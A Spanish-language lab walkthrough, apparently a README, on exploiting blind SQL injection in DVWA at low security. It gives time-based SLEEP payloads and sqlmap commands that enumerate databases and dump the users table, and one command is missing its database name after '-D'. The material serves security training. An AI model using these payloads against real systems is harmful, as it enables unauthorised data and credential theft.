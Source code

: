 # Vulnerabilidad de SQL Injection (Blind) - Nivel Bajo

Este README describe brevemente la vulnerabilidad de SQL Injection (Blind) y cómo explotarla en el nivel de seguridad Bajo.

## Resumen de la Vulnerabilidad de SQL Injection (Blind)

SQL Injection (SQLi) Blind es una variación de SQL Injection donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando el comportamiento de la aplicación en respuesta a inyecciones SQL, utilizando técnicas basadas en booleanos o en tiempo.

## Explotación de SQL Injection (Blind) Paso a Paso - Nivel de Seguridad Bajo

En el nivel de seguridad bajo, la aplicación es completamente vulnerable a la inyección SQL Blind y no implementa ninguna medida de seguridad.

### Explotación Manual (Basada en Tiempo - Ejemplo)

1.  **Identificar el parámetro vulnerable:** En este caso, el parámetro vulnerable en la URL es `id`.
2.  **Intentar una inyección SQL básica:** Un intento básico como `'` probablemente no arrojará un error visible.
3.  **Realizar una inyección SQL basada en tiempo:** Para verificar la vulnerabilidad, se introduce una consulta que fuerza una espera en la base de datos:
    ```
    http://<IP_del_servidor>/dvwa/vulnerabilities/sqli_blind/?id=1 AND SLEEP(5)&Submit=Submit#
    ```
    Si la página tarda aproximadamente 5 segundos en cargar, la inyección SQL basada en tiempo es exitosa.
4.  **Inferir información:** Se pueden usar consultas booleanas combinadas con `SLEEP()` para extraer información carácter por carácter. Por ejemplo, para verificar la longitud de la versión de la base de datos:
    ```
    http://<IP_del_servidor>/dvwa/vulnerabilities/sqli_blind/?id=1 AND LENGTH(VERSION()) > 5 AND SLEEP(5)&Submit=Submit#
    ```
    Un tiempo de carga prolongado indica que la condición es verdadera.

### Explotación Automatizada con sqlmap

sqlmap es una herramienta que automatiza la detección y explotación de SQLi Blind.

Para tener la información necesaria utilizamos la información del navegador o la optenemos haciendo una captura con burp suite

![imagen de la vulnerabilidad SQL Injection Blind 1](../../assets/SQLInjectionBlindLow01.png)

![imagen de la vulnerabilidad SQL Injection Blind 2](../../assets/SQLInjectionBlindLow02.png)

1.  **Construir el comando sqlmap para enumerar las bases de datos:**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id --dbs
    ```
    * `--url`: Especifica la URL vulnerable.
    * `--cookie`: Proporciona la cookie de sesión.
    * `--data`: Especifica los datos POST (si aplica).
    * `-p id`: Indica el parámetro a probar.
    * `--dbs`: Le dice a sqlmap que enumere las bases de datos.

![imagen de la vulnerabilidad SQL Injection Blind 3](../../assets/SQLInjectionBlindLow03.png)

2.  **Ejecutar el comando sqlmap:** sqlmap probará varias técnicas de inyección Blind.

3.  **Analizar los resultados:** sqlmap mostrará las bases de datos encontradas (ej: `dvwa`, `information_schema`).

4.  **Enumerar las tablas de una base de datos específica (ej: `dvwa`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -D --tables --batch --threads 5
    ```
    * `--tables`: Le dice a sqlmap que enumere las tablas.
    * `--batch`: Responde automáticamente a las preguntas.
    * `--threads 5`: Utiliza múltiples hilos.

![imagen de la vulnerabilidad SQL Injection Blind 4](../../assets/SQLInjectionBlindLow04.png)

5.  **Extraer la información de una tabla específica (ej: `users`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
    ```
    * `-T users`: Especifica la tabla.
    * `--dump`: Le dice a sqlmap que vuelque el contenido.

![imagen de la vulnerabilidad SQL Injection Blind 5](../../assets/SQLInjectionBlindLow05.png)

En resumen, la explotación de SQL Injection (Blind) en el nivel bajo se realiza manualmente mediante la observación del tiempo de respuesta o automáticamente utilizando herramientas como sqlmap para inferir la estructura y el contenido de la base de datos sin recibir errores directos.